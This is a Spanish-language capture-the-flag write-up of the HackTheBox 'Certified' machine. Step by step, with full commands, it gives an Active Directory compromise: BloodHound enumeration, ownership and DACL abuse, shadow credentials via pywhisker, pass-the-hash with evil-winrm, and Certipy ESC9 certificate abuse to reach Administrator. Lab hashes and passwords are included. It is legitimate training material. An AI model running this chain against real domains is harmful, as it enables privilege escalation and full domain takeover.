

# CERTIFIED [HACKTHEBOX] / Medium
### (SMB Enumeration, BloodHound Enumeration, WriteOwner Rights Abuse, Modify the Owner of an Existing Group with OwnerEdit.py, Giving Rights to Add Users with DaclEdit.py, Add User to a group using Net Rpc Group AddMem, Shadow Credential Attack with PyWhisker.py (Generate PFX file to Obtain TGT), Obtain TGT with GetTGTPkInit.py, Get NT Hash doing PassTheTicket Technique with GetNTHash.py, Connection via Evil-WinRM, GenericAll Rights Abuse, Use of Certipy to list Vulnerable Templates, Active Directory Certificate Services (ADCS) Abuse using ESC9, ESC9 for Privilege Escalation)

#### - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 


# Nmap Scan

Los puertos más importantes que nos saca son:

- **53** (DNS)
- **88** (Kerberos)
- **135** (RPCClient)
- **389** (Ldap)
- **445** (SMB)
- **5985** (WinRM)

Y estos serían todos los puertos:


Si miramos en el escaneo de nmap o listando recursos compartidos con `smb`, nos sale el dominio de la máquina:


Que lo metemos al `/etc/hosts` de la siguiente manera:


# BloodHound Enumeration

Como hackthebox nos da unas credenciales por defecto, las vamos a usar para enumerar usuarios del dominio y recolectar información:

```bash
rpcclient -U "judith.mader%judith09" 10.10.11.41 -c "enumdomusers"
```


Listado de usuarios para diccionario:

```bash
rpcclient -U "judith.mader%judith09" 10.10.11.41 -c "enumdomusers" | grep -oP '\[.*?\]' | grep -v '0x' | tr -d '[]' | tail -n 6 > users.txt
```


Ese listado lo podemos utilizar para ver si alguno de los usuarios es vulnerable a un ataque ASREPRoast:

```bash
GetNPUsers.py -no-pass -usersfile users.txt certified.htb/
```

Pero vemos que ninguno tiene la opción `UF_DONT_REQUIRE_PREAUTH` activada, por lo que no son vulnerables:


Vamos a utilizar **bloodhound** para recolectar información del sistema:

```bash
bloodhound-python -u judith.mader -p judith09 -ns 10.10.11.41 --zip -c All -d certified.htb
```

Esto nos suelta un .zip que luego utilizaremos:


Ahora nos instalamos el bloodhound en su versión de Docker:

https://support.bloodhoundenterprise.io/hc/en-us/articles/17468450058267-Install-BloodHound-Community-Edition-with-Docker-Compose


Con la contraseña que nos ha dado al montar el contenedor, iniciamos sesión en `localhost:8080`:

```
user: admin
passwd: KWTcaZkEhEFRVKBk6lpk3Dxqc8cxS5nX
```

Una vez, dentro, nos vamos al apartado de "file ingest" y subimos el .exe que creamos antes con `bloodhound-python`:


# User Flag

Una vez hecho esto, buscamos el PATH para convertirnos en el usuario `ca_operator`, que si buscamos mediante el bloodhound es el último al que tenemos que llegar:


En el bloodhound nos salen todas las instrucciones, en primer lugar, como judith.mader, hay que conseguir añadirnos al grupo "management":


Utilizamos owneredit.py para realizar el cambio de propietario como nos indica el bloodhound:

```bash
owneredit.py -action write -new-owner 'judith.mader' -target 'management' 'certified.htb'/'judith.mader':'judith09'
```


Ahora miramos la próxima instrucción en BloodHound, la cual nos indica un comando en el cual necesitamos el "groupDistinguidedName":


Que lo podemos encontrar si pinchamos en el grupo "management" y nos metemos en la información:


Con  `dacledit.py` editamos los permisos del usuario judith.mader para añadir el permiso "Addmembers"

```bash
dacledit.py -action 'write' -rights 'WriteMembers' -principal 'judith.mader' -target-dn 'CN=MANAGEMENT,CN=USERS,DC=CERTIFIED,DC=HTB' 'certified.htb'/'judith.mader':'judith09'
```


Nos volvemos al BloodHound a mirar la próxima instrucción:


Y nos metemos como miembro del grupo "management":

```bash
net rpc group addmem "management" "judith.mader" -U "certified.htb"/"judith.mader"%"judith09" -S "10.10.11.41"
```

Por último, verificamos:


Utilizando `net rpc`, comprobamos si lo que hemos hecho ha dado sus frutos y nos aparece que judith.mader está dentro del grupo management

```bash
net rpc group members "management" -U "certified.htb"/"judith.mader"%"judith09" -S "10.10.11.41"
```


Una vez aquí, ya hemos conseguido escalar de judith.mader a estar en el grupo management. Pinchando en el siguiente rectángulo del esquema del PATH llamado "GenericWrite", volvemos a fijarnos en las instrucciones de "Linux Abuse"


Ahora utilizando `pywhisker`, el cual instalamos desde el repositorio al que nos lleva el link de BloodHound (recomiendo instalarlo con `pipx -> pipx install .` una vez dentro del repo), vamos a poder conseguir las herramientas necesarias para obtener un TGT:

```bash
pywhisker -d "certified.htb" -u "judith.mader" -p "judith09" --target "management_svc" --action "add"
```


Como bien nos dice el script, hay que instalarse PKINITtools para obtener el TGT:

```bash
git clone https://github.com/dirkjanm/PKINITtools
```

Si ejecutamos el script con python, vemos las instrucciones:


```bash
python3 gettgtpkinit.py -cert-pfx ../pywhisker/ndfaDtp0.pfx -pfx-pass 3C0FVnMDwNoImap9cbQc -dc-ip 10.10.11.41 certified.htb/management_svc management_svc.ccache
```

Y así obtenemos el TGT y un hash:


El cual usaremos ahora para obtener el NTHash y así poder acceder a la máquina mediante `evil-winrm`:


Nos sale que tenemos que setear la variable de entorno `KRB5CCNAME`:


Esto lo igualamos al archivo .ccache que nos exportó el script `gettgtpkinit.py`:

```bash
KRB5CCNAME=management_svc.ccache python3 getnthash.py -key 3af4caa471b8091f151569f4dc43e3a0c9f5b49acc771f7f9acdb6ff5d1424b2 -dc-ip 10.10.11.41 certified.htb/management_svc
```

Ahora si, nos da el NTHash:


El cual usamos para acceder como el usuario management_svc a la máquina:

```bash
evil-winrm -i 10.10.11.41 -u 'management_svc' -H 'a091c1832bcdd4677c28b5a6a1295584'
```


Si nos vamos a `C:\Users\management_svc\Desktop`, obtenemos la flag de user.


# Administrator Flag (PrivEsc)

Como vimos en BloodHound, nos queda un usuario al que podemos ascender, el cual, si hacemos click en "GenericAll", nos da las instrucciones. Lo primero es volver a utilizar `pywhisker`:

```bash
pywhisker -d "certified.htb" -u "management_svc" -H "a091c1832bcdd4677c28b5a6a1295584" --target "ca_operator" --action "add"
```

Esto nos vuelve a dar el archivo .pfx y la contraseña:


El cual utilizamos para conseguir el TGT:

```bash
python3 gettgtpkinit.py -cert-pfx ../pywhisker/qN5KbeFJ.pfx -pfx-pass cAhD3B0Su8JuzGWk9xvC certified.htb/ca_operator ca_operator.ccache
```


Una vez tenemos todo lo necesario, intentamos sacar el NTHash:

```bash
KRB5CCNAME=ca_operator.ccache python3 getnthash.py -key 4d8b74f6db4f37d915de52015805a60c7229c77e02f744576553f439c42e8e02 -dc-ip 10.10.11.41 certified.htb/ca_operator
```


Y por último comprobamos si es válido con `netexec smb`, ya que el usuario "ca_operator" no es miembro del grupo "Remote Management Users", por lo que no podemos acceder mediante `evil-winrm`:

```bash
netexec smb DC01 -u ca_operator -H b4b86f45c6018f1b664f70805f45d8f2
```


Una vez que tenemos todo esto claro, vamos a buscar "Templates Vulnerables" con Certipy, el cual instalamos con `pipx`:

https://github.com/ly4k/Certipy

```bash
cd certipy
pipx install .
```

Con el siguiente comando vuscamos por plantillas vulnerables:

```bash
certipy find -vulnerable -username ca_operator -hashes :b4b86f45c6018f1b664f70805f45d8f2 -dc-ip 10.10.11.41 -stdout
```

Y encontramos una con la vulnerabilidad `ESC9`:


La cual podemos ver directamente en el repositorio de Certipy:



Si hacemos click ahí, vemos que nos dirige a un blog externo:

https://research.ifcr.dk/certipy-4-0-esc9-esc10-bloodhound-gui-new-authentication-and-request-methods-and-more-7237d88061f7

En el cual, si nos vamos al apartado "Examples", vemos como podemos abusar de esto:


En la primera instrucción, nos dice que debemos cambiar el "userPrincipalName" de "Jane", que en este caso es "ca_operator", a Administrator, para ello tenemos que utilizar las credenciales de "John", que para nosotros sería "management_svc:


Ejecutamos el comando adaptado a nuestra máquina:

```bash
certipy account update -username management_svc@certified.htb -hashes :a091c1832bcdd4677c28b5a6a1295584 -user ca_operator -upn Administrator
```

Y listo, hemos cambiado el "userPrincipalName" de "ca_operator" a Administrator:


Ahora nos dice que tenemos que realizar una petición al certificado vulnerable como "ca_operator":


Para hacer esto necesitamos el nombre de la plantilla, así que volvemos a listarla:

```bash
certipy find -vulnerable -username ca_operator -hashes :b4b86f45c6018f1b664f70805f45d8f2 -dc-ip 10.10.11.41 -stdout
```


Y ahora adaptamos el comando, como no tenemos una contraseña, podemos cambiarla por el hash:

```bash
certipy req -username ca_operator@certified.htb -hashes :b4b86f45c6018f1b664f70805f45d8f2 -ca certified-DC01-CA -template CertifiedAuthentication -dc-ip 10.10.11.41
```

Una vez ejecutamos, nos exporta el .pfx de Administrator:


Ahora nos dice que necesitamos volver a cambiar el "userPrincipalName" de ca_operator a la normalidad, podemos poder cualquier nombre:


```bash
certipy account update -username management_svc@certified.htb -hashes :a091c1832bcdd4677c28b5a6a1295584 -user ca_operator -upn cr0w@certified.htb
```

Y listo:


Ahora nos dice que si nos intentamos autentificar con el certificado (.pfx), nos dará el NTHash con el que podremos entrar a la máquina como Administrator:


```bash
certipy auth -pfx administrator.pfx -domain certified.htb
```

Y voilà:


Ahora si nos intentamos identificar mediante `evil-winrm` como Administrator con el hash:

```bash
evil-winrm -i 10.10.11.41 -u 'Administrator' -H '0d5b49608bbce1751f708748f67e2d34'
```

Vemos que entramos sin problema:


Por último, si nos vamos a `C:\Administrator\Desktop`, podemos encontrar la flag del usuario administrador.


# ./PWNED


